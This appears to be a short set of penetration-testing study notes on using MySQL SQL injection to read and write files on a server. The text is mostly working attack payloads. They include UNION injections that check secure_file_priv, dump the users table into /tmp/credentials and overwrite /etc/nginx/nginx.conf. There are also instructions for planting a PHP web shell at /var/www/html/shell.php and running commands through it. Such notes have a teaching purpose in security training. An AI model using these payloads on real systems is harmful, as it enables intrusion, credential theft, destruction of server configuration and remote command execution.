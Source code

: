 ### Loading Files 
**Requirements**
1. User with `FILE` privilege enabled
2. MySQL global `secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server
#### Check variable is allowed
```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

Payload: 
```sql
cn' UNION SELECT 1, variable_name, variable_value, 4, 5 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```
Looking for `secure_file_priv` value to be empty, means that can read/write to any location
#### Select INTO Out file
```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```
##### Files through SQLI
To find the web root, use `load_file` to load
`/etc/apache/apache.conf`
`/etc/nginx/nginx.conf`
`%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`,
```sql
cn' union select 1,'file written successfully!',3,4, 5 into outfile '/etc/nginx/nginx.conf'-- 
```
###### Web Shell
```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/shell.php'-- 
```
Visit /shell.php execute commands with the 0 Paramter.
`/shell.php?0=id`
